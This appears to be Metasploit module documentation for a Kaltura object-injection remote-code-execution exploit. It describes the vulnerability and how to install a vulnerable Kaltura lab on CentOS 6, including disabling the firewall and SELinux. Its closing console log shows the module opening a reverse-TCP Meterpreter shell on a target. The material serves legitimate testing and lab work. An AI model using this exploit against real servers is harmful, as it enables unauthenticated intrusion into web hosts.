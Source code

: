 ## Vulnerable Application

This module exploits an Object Injection vulnerability in Kaltura. By exploiting this vulnerability, unauthenticated users can execute arbitrary code under the context of the web server user.

Kaltura has a module named keditorservices that takes user input and then uses it as an unserialized function parameter. The object constructed is based on the SektionEins Zend code execution POP chain PoC, with a minor modification to ensure Kaltura processes it and the Zend_Log function's __destruct() method is called. Kaltura prior to 11.1.0-2 versions are affected by issue.

**Vulnerable Application Installation Steps**

Kaltura has their own RPM and/or DEB packages to help us to install it without any issue. Following steps are slightly different than official wiki in order to install the vulnerable packages.

Following steps are valid on the CentOS 6 x64 bit operating system.

1. Install CentOS-6 x64 and run `yum update -y` in order to fetch and install the latest packages. Also seting the hostname to something like _kalturahack.dev_ would be wise, ecause it will be used during Kaltura installation.
2. Disable iptables and selinux. 
```
iptables -F
service iptables stop
chkconfig iptables off
setenforce permissive
(selinux will be enabled on reboot unless editing /etc/selinux/config file.)
```
3. Install following pre-requisites.
* PHP 5.3.n, 5.4.n, 5.5.n, 5.6.n [the official distro repo version]
* MySQL/MariaDB [the official distro repo version]. Please make sure your MySQL is configured not to enforce strict mode.
* JRE 1.7.n (openjdk can be used)

4. Install Kaltura yum repo.
```
rpm -ihv http://installrepo.kaltura.org/releases/kaltura-release.noarch.rpm
```

5. Kaltura repo is configured for the latest version by default. We need to change it to one of the vulnerable releases. Thus, open `/etc/yum.repos.d/kaltura.repo` file with your favorite text editor and perform following replacement.

Original file. (# lines just ignored)
```
[Kaltura]
name = Kaltura Server
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1 
enabled = 1

[Kaltura-noarch]
name = Kaltura Server arch independent
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/noarch
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1
enabled = 1
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
```
After changes.
```
[Kaltura]
name = Kaltura Server
baseurl = http://installrepo.kaltura.org/releases/10.10.0/RPMS/$basearch/
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1 
enabled = 1

[Kaltura-noarch]
name = Kaltura Server arch independent
baseurl = http://installrepo.kaltura.org/releases/10.10.0/RPMS/noarch
gpgkey = http://installrepo.kaltura.org/releases/RPM-GPG-KEY-kaltura
gpgcheck = 1
enabled = 1
baseurl = http://installrepo.kaltura.org/releases/latest/RPMS/$basearch/
```

6. Install kaltura-server. This will take a while. 
```
yum clean all
yum install kaltura-server
```

7. Run the following commands in order to initiate the database and start necessary services.
```
/opt/kaltura/bin/kaltura-mysql-settings.sh
service memcached restart
service ntpd restart
chkconfig memcached on
chkconfig ntpd on
```

8. Start the kaltura configuration script `/opt/kaltura/bin/kaltura-config-all.sh` .

```
[Email\NO]: "<your email address>"
CDN hostname [kalrpm.lcl]: "<your hostname>"
Apache virtual hostname [kalrpm.lcl]: "<your hostname>"
Which port will this Vhost listen on [80]?:

DB hostname [127.0.0.1]: "<127.0.0.1>"
DB port [3306]: "<3306>"
MySQL super user [this is only for setting the kaltura user passwd and WILL NOT be used with the application]: "<root>"
MySQL super user passwd [this is only for setting the kaltura user passwd and WILL NOT be used with the application]: "<your root password>"
Analytics DB hostname [127.0.0.1]: "<127.0.0.1>"
Analytics DB port [3306]: "<3306>"
Sphinx hostname [127.0.0.1]: "<127.0.0.1>"

Secondary Sphinx hostname: [leave empty if none] "<empty>"

VOD packager hostname [kalrpm.lcl]: "<http://kaltura-nginx-hostname>"

VOD packager port to listen on [88]: 

Service URL [http://kalrpm.lcl:80]: "<http://apache-hostname:80>"

Kaltura Admin user (email address): "<your email address>"
Admin user login password (must be minimum 8 chars and include at least one of each: upper-case, lower-case, number and a special character): "<your kaltura admin password>"
Confirm passwd: "<your kaltura admin password>"

Your time zone [see http://php.net/date.timezone], or press enter for [Europe/Amsterdam]: "<your timezone>"
How would you like to name your system (this name will show as the From field in emails sent by the system) [Kaltura Video Platform]? "<your preferred system name>"
Your website Contact Us URL [http://corp.kaltura.com/company/contact-us]: "<your contact URL>"
'Contact us' phone number [+1 800 871 5224]? "<your phone numer>"

Is your Apache working with SSL?[Y/n] "<n>"
It is recommended that you do work using HTTPs. Would you like to continue anyway?[N/y] "<y>"
Which port will this Vhost listen on? [80] "<80>"
Please select one of the following options [0]: "<0>"
```

I do recommend that leaving all default values as is except SSL. You may want to install Kaltura without SSL support.

These steps are slightly different than following instruction.
[http://kaltura-install-packages.readthedocs.io/en/latest/install-kaltura-redhat-based/](http://kaltura-install-packages.readthedocs.io/en/latest/install-kaltura-redhat-based/)

## Verification Steps

A successful check of the exploit will look like this:

```
msf > use exploit/unix/webapp/kaltura_unserialize_rce 
msf exploit(kaltura_unserialize_rce) > set RHOST centoshacker.dev
RHOST => centoshacker.dev
msf exploit(kaltura_unserialize_rce) > check
[+] centoshacker.dev:80 The target is vulnerable.
msf exploit(kaltura_unserialize_rce) > exploit 

[*] Started reverse TCP handler on 10.0.0.1:4444 
[*] Sending stage (33721 bytes) to 10.0.0.134
[*] Meterpreter session 1 opened (10.0.0.1:4444 -> 10.0.0.134:50312) at 2016-09-17 22:56:44 +0300

meterpreter > pwd
/opt/kaltura/app/alpha/web
meterpreter >
```

